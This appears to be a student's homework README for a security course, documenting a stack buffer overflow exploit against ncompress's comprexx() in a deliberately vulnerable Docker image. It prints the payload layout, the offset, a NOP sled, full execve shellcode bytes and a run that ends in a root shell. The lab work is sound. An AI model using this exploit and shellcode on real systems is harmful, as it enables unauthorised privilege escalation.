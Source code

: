 # Homework #0
Full name: **Theodoros Moraitis** (Θεόδωρος Μωραΐτης) <br>
StudentID: **sdi2000150** (1115202000150)

*For the second part of Homework #0 ("Running our first devsecops pipeline") check the `successful_run.txt` file or visit the public repository directly:
https://github.com/teomoraitis/devsecops-pipeline*
## Our first exploit: Control flow hijack with shellcode injection

This readme details how the buffer overflow exploit was crafted and executed against the vulnerable `compress42.c` program (`ncompress` executable). The objective was to overflow the buffer in the `comprexx()` function and hijack the control flow to execute our shellcode, which spawns a root shell.


## Overview

The vulnerable program contains a function `comprexx()` which is being called when `ncompress` is called like this:
```
~$ ncompress arg
```
, where arg is a string (character array) representing the file path for processing. `comprexx()` allocates a local buffer (`tempname`) of size `MAXPATHLEN` (1024 bytes). By overflowing this buffer with a carefully structured payload, I can overwrite the function's return address, redirect execution into a NOP sled, and eventually run our shellcode.

The payload is constructed with the following layout:
- **Junk Data:** Fills the buffer until the return address.
- **Return Address:** Overwrites the original return address to point somewhere into the NOP sled.
- **NOP Sled:** A series of NOP instructions (`\x90`) that provide a sled landing in the shellcode.
- **Shellcode:** Assembly instructions that execute a root shell.


## Payload Construction

My Python script (exploit.py) constructs the payload step-by-step:<br>
*(exploit.py is also full of comments describing these steps)*

1. **Junk Data:**  
    The exploit uses 1072 bytes of data to overflow the buffer until the return address. Through iterative testing (observing segmentation faults and checking with `dmesg`), I determined that 1072 bytes are required. I then use 1068 bytes of junk so that the last 4 bytes exactly overwrite the return address itself.
    ```python
    payload += b"A" * 1068
    ```
2. **Overwriting the Return Address:**
    The next 4 bytes overwrite the return address. I use as address the value SP (Stack Pointer) had at the time of the segfault during the testing with junk data. An offset (here, 12000) is added to the SP value so that the exploit has more possibilities to work in different environments.
    ```python
    payload += struct.pack("<I", 0xffff7fb0 + 12000)
    ```

3. **NOP Sled:**
    A large NOP sled of 24000 bytes (NOPs) is added. This increases the likelihood that the overwritten return address will redirect execution into the NOP sled, eventually sliding into our shellcode.
    ```python
    payload += b"\x90" * 24000
    ```
4. **Shellcode:**
    The shellcode spawns a shell as root and is appended at the end of the payload. This is the same shellcode used at class paradigms.
    ```python
    payload += b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
    ```

## Exploitation Process

1. **Vulnerability Analysis:**
    The source code of ncompress (compress42.c) shows that thecomprexx() function uses a local buffer of fixed size (1024bytes). Overflowing this buffer allows us to overwrite thereturn address on the stack.

2. **Determining the position of the return address:**
    I tested the exploit with increasing junk data until a segmentation fault occurred (starting with 1024 A's and going up). While segfault started to happen, using dmesg, the IP (Instruction Pointer) should be overwritten with 41414141 (the hexadecimal representation of "AAAA"). The moment this happened was at 1072 bytes (A's), so I concluded that at 1068 byte the return address was placed, and this is where I should overwritte it with my own return address.

3. **Crafting the Payload:**
    The payload layout ensures that the overwritten return address points into the large NOP sled, allowing the program execution flow to "slide" into the shellcode. The shellcode then executes, spawning a shell with root privileges.

4. **Launching the Exploit:**
    The payload is saved (for example, in a file named payload). The exploit is launched by giving the payload as an argument into the `ncompress` program.

A successful invocation follows (where `...` there were many A's and �'s respectively):

```
teomor@teomor-ThinkPad-Ubuntu:~$ docker run --rm --privileged -v `pwd`/exploit.py:/exploit.py -it ethan42/ncompress:vulnerable 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

ubuntu@7461aee61d58:~$ echo hello | ncompress
��hʰa�Fubuntu@7461aee61d58:~$ python3 /exploit.py > payload
ubuntu@7461aee61d58:~$ whoami
ubuntu
ubuntu@7461aee61d58:~$ ncompress `cat payload`
AAAA...AAAA����...����1�Ph//shh/bin����°
                                                                                      ̀1�@̀: File name too long
# whoami
root
# 
```
